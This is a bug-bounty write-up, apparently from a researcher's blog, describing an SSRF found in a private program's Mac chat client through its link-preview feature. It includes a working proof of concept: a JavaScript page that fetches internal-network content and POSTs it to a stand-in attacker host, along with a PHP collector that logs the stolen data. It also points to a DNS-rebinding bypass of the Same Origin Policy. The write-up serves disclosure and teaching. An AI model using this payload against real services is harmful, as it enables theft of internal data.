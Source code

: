 I was working on a private program which i cannot disclose

First of all, its web assets have several subdomains. After I tested it for a while, I plan to look at the mac client.

The mac client has an chat interface where i found a SSRF.

The following is the whole process

After installation, sign up for login, then I see a chat interface.

Send a URL

![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/1.png)
It seems to preview the url, return a title and favicons

I use my server ip to test. Then received

![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t3.png)
Found that is the browser's ua header

Then I tested it http://127.0.0.1 https://127.0.0.1 file://etc/passwd ....

Tested a lot of common internal ip

But

![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t1.png)
![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t2.png)
No effect

Then I tried the subdomain brute force, as well as some asset discovery sites to find internal ip

Until there is an ip

![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t4.png)
Seems to be successful

Then I quickly submitted the vulnerability

But

![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t5.png)
As written above, we can only get a very small amount of content.

After testing, I found that it will also execute js because it is browser ua

  
 
    <html><p id='d1'></p>
    <script>
        function get(url) {
            try {
                var req = new XMLHttpRequest();
                req.open('GET', url, false);
                req.send(null);
                if(req.status == 200)
                    return req.responseText;
            } catch(err) {
            }
            return null;
        }
        var role = get('https://google.com');
        document.getElementById("d1").innerHTML=role.length;
    </script></html>
    
    
![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t6.png)

Can successfully get Google returns the content length

Does not seem to be blocked by Same Origin Policy

Then we can get any internal network content

**poc**

xxx.php

    <?php
    file_put_contents("save.txt", $_POST['cc'] . "\n", FILE_APPEND);
    ?>
    
poc.html

    <html><p id='d1'></p>
    <script>
    function get(url) {
        try {
            var req = new XMLHttpRequest();
            req.open('GET', url, false);
            req.send(null);
            if(req.status == 200)
                return req.responseText;
        } catch(err) {
        }
        return null;
    }
    function post(url,content){
        var req = new XMLHttpRequest();
        req.open("POST", url, true);
        var formData = new FormData();
        formData.append("cc", content);
        req.send(formData);
    }
    var role = get('https://Internal ip');
    post('https://xxxxxxxxxxx.com/xxx.php',escape(role));
    document.getElementById("d1").innerHTML=role.length;
    </script></html>
    
Then check save.txt

![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t8.png)
Url decoding

![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t9.png)
**If Same Origin Policy blocks**

Bypass Same Origin Policy with DNS-rebinding to retrieve  Internal server .

![enter image description here](https://user-images.githubusercontent.com/5891788/53449161-87e47300-3a19-11e9-8e3c-7b7bdfeaab6b.png)

Details from https://github.com/mpgn/ByP-SOP

Finally 
![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t11.png)
I got the highest bounty reward for this private project.
![enter image description here](https://1.bp.blogspot.com/-3GE4BNyvnIk/XcJCEXqEEXI/AAAAAAAAACQ/6vs1Kn_Ef-Iph3bSnDgT7fG4T3vW1BKhACLcBGAsYHQ/s1600/1.png)

